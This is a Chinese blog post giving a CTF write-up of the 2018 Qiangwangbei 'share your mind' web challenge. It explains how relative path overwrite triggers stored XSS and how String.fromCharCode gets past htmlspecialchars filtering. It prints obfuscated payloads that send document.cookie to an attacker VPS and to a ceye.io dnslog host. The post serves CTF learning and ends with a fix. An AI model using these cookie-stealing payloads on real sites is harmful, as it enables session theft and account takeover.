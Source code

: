 ```yaml
---
layout:     post
title:      "强网杯CTF wtiteup之share your mind"
subtitle:   " \"安全研究\""
date:       2018-03-27 22:30:32
author:     "y1r0nz"
header-img: "img/hack.jpg"
tags:
    - 安全研究
    - CTF
    - 渗透经历
---
```




#### 0x01 前言

​	强网杯CTF online初赛已经告一段落，首先还是要感谢和跪舔一波公司战队所有的小伙伴，解题过程虽然烧脑但很精彩，2000个比赛战队情况下一度杀入前40。

​	早在比赛之前我就认为第二届相比第一届名次的角逐会更加激烈，对自己的失望也和期望基本一致，但也并不意味着我完全对玩ctf失去了兴趣。正因为参与了比赛并在比赛中尽力解出属于自己的题目，在赛后看看别人家的writeup，才可以根据这些思路总结下比赛经历并将其运用在其他地方。所以，经历这些过程之后的成长才是最重要的。

​	比赛期间自己在share your mind这题上Fuzz的时间最多，最终也没有想到思路，看了赛后大佬的writeup才后知后觉，这里简要的总结下吧。

— 

#### 0x02 关于做share your mind这题自己的一些心得

* 漏洞挖掘以及RPO XSS成因

​	首先这题是一道web题，初步看了下提示以后就开始做了。

   ![share your mind1](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind1.png)	

​	根据这题的提示来到题目主页，这里要求输入用户名密码，注册了个账户发现能用便进去一看究竟了。

![share your mind2](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind2.png)

​	来到主页report页面中发现了这样一个输入框，网站开发人员想要你把存在问题的页面链接提交给后台给他处理。大多数老铁和司机们看到这里基本上可以断定这题是一个xss盲打后台管理员cookie的了。

![share your mind3](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind4.png)

​	由于后台用的phantomjs写的xss bot（类似假的管理员机器人，xss打过去基本上秒回那种），这里随便构造一下有本站地址的url然后把xss payload放到后面打过去，发现后台确实可以成功访问自己的dnslog服务器。

![share your mind4](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind3.png)

​	由于本熊对xss的了解仅停留在写poc水平，还没对如何利用进行过深入研究过，但是根据题目hint1提示说xss的点根本不在report页面，所以我也就没在fuzzing payload上花更多的功夫。所以，后面的过程一直在寻找xss注入点，在寻找的过程中还发现了一枚彩蛋~ 

![share your mind5](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind5.png)

发现网站使用了php的htmlspecialchar函数并开启ENT_QUOTES开关对所有输出进行了过滤，也就是说html编码了尖括号和单双引号。。当我看到这个函数以为找到了突破口，过滤函数是可以绕过，并且确定xss绝对在这```http://39.107.33.96:20000/index.php/view/article/你发布文章的id```但是一直没有找到输出内容不在html标签之内的地方，所以当时的思路就一直卡在这里。。

​	在看了[Ph0rse大佬写的writeup](https://xianzhi.aliyun.com/forum/topic/2220#toc-2)后才知道原来发布文章不写标题只写内容在view文章页面是直接打印的内容，而两个都写了的话是把文章标题和内容都输出在html标签之间的，看看下面两张图就明白了。

![share your mind6](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind6.png)

![share your mind7](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind7.png)

好了，我们确定了xss输入点以后怎么触发这个xss呢，答案很隐蔽，用RPO XSS方式。首先我们来了解下RPO(relative path overwrite)即相对路径覆盖结合xss这种漏洞的成因，在漏洞利用之前首先需要掌握php url的一些冷知识。那就是phpinfo url，类似url重写。

​	根据[Wiki](https://zh.wikipedia.org/wiki/URL%E9%87%8D%E5%AF%AB)里面对url重写的解释：url rewrite是一种REST的相关技术，它可以在 Web Server 中，针对用户所提供的 URL 进行转换后，再传入 Web Server 中的程序处理器。这里可以知道url重写其实就是将常见携带参数形式的url重写为不携带参数的伪静态形式，在题目中可以反映为：

 ```http://39.107.33.96:20000/index.php/view/article/1494```/=/=```http://39.107.33.96:20000/index.php?methode=view&article=1494```

这样的形式。

在php的特性中%2f会被直接解析为斜杠，在通常情况下```http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2findex.php```代表```http://39.107.33.96:20000/index.php/view/article/1494/../../../../index.php```即在浏览器解析为向上跳了三层目录并使用新的index.php覆盖掉原来的index.php目录。说到这里我们思考下，假如服务端开启了phpinfo url呢？会不会无视php目录跳转的特性直接把```..%2f..%2f..%2f..%2findex.php```当作参数进行解析？答案是肯定的。

我们从前端代码中可以发现jquery.min.js这个文件是使用的相对路径的方式引入到index.php页面中。

![share your mind8](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind8.png)

浏览器将```http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2findex.php```将解析为```http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2findex.php/static/js/jquery.min.js```这种形式。从而导致最终访问```http://39.107.33.96:20000/index.php/static/js/jquery.min.js```这个页面，那本质上请求的是什么呢，其实还是```http://39.107.33.96:20000/index.php/view/article/1494```这篇文章的内容，绿盟那篇文章解释得很清楚：__客户端浏览器在加载相对路径文件时是以最后一个/为相对目录加载具体资源文件的__。只是将这篇文章的内容引入到了jquery.min.js，从而让浏览器误以为文章的内容就是这个js文件。

![share your mind9](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind9.png)

下面可以来实验一下，在write article页面写入alert(1)这种js语句。然后构造上述请求，最终触发xss。

```http://39.107.33.96:20000/index.php/view/article/1493/..%2f..%2f..%2f..%2findex.php```

![share your mind10](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind10.png)

我们可以f12看下浏览器的请求形式

![share your mind11](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind11.png)

显然，alert(1)这条语句最终引入到jquery.min.js中并覆盖掉原文件内容，浏览器误以为jquery.min.js 中的内容为alert(1)导致js脚本被执行。

* 漏洞最终利用

有了RPO XSS这个核武器，接下来就可以构造rpxss payload的exp脚本了。之前有提到服务端对所有输出到页面的字符使用了htmlspecialchar函数处理，故不可以使用单引号的。所以这里还有一个知识点就是使用javascript的fromCharCode函数绕过过滤限制。可以构造类似如下payload：

```(new Image()).src = 'http://VPSIP:Port?'+document.cookie```

最终构造的pyaload如下：

```(new Image()).src = String.fromCharCode(104,116,116,112,58,47,47,55,101,52,122,119,48,99,101,121,101,46,105,111,63)+document.cookie;```

从report页面发送到后台，这里code只需要写个脚本跑个md5字典下来进行碰撞猜测就可以得到了

![share your mind12](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind12.png)

打过去就可以得到cookie，然而这里cookie的值提示要打另外一个目录

![share your mind13](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind13.png)

搬砖Ph0rse的代码，exp可以按照下面这种方式用iframe标签的src属性去读本地相对路径。

``````javascript
var iframe = document.createElement(String.fromCharCode(105,102,114,97,109,101));
iframe.src = String.fromCharCode(47,81,87,66,95,102,108,52,103,47,81,87,66,47);
iframe.id = String.fromCharCode(102,114,97,109,101);
document.body.appendChild(iframe);
iframe.onload = function (){
    var c = document.getElementById(String.fromCharCode(102,114,97,109,101)).contentWindow.document.cookie;
var y1r0nz = document.createElement(String.fromCharCode(108,105,110,107));
y1r0nz.setAttribute(String.fromCharCode(114,101,108), String.fromCharCode(112,114,101,102,101,116,99,104));
y1r0nz.setAttribute(String.fromCharCode(104,114,101,102), String.fromCharCode(47,47,55,101,52,122,119,48,46,99,101,121,101,46,105,111,47,63,102,108,97,103,61) + c);
document.head.appendChild(y1r0nz);
}
``````

这段js代码的意思简而言之，在经过浏览器渲染以后就是下述的两行html代码

``` html
<iframe id="frame" src="/QWB_fl4g/QWB/">
<link rel="prefetch" href="http://7e4zw0.ceye.io/?flag=document.getElementById(frame).contentWindow.document.cookie">
```

prefetch属性规定了当前文档在链接文档之前被调用

提交到后台便在dnslog上得到flag了^_^

![share your mind13](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind15.png)

— 

#### 0x03 总结&修复方案

ctf的题烧脑，但是每一题的干货特别多。这题主要三个考点：

* 掌握通过xss bot盲打后台获取session的常见套路
* phpinfo url形式如何通过相对路径覆盖的方式触发xss payload
* 使用fromCharCode函数绕过htmlspecialchar函数的单引号过滤

浏览器和服务器这种误差是在现阶段内无法及时解决的，涉及到双方各自的应用标准。目前看来，比较直接的解决办法就是在页面中避免直接使用相对路径进行静态文件的加载了。

— 

#### 0x04 参考文献

1. 深入剖析RPO漏洞  [https://xianzhi.aliyun.com/forum/topic/2220#toc-2](https://xianzhi.aliyun.com/forum/topic/2220#toc-2)
2. Url重写 [https://zh.wikipedia.org/wiki/URL%E9%87%8D%E5%AF%AB](https://zh.wikipedia.org/wiki/URL%E9%87%8D%E5%AF%AB)
3. RPO技术浅析 [http://blog.nsfocus.net/rpo-attack/](http://blog.nsfocus.net/rpo-attack/)
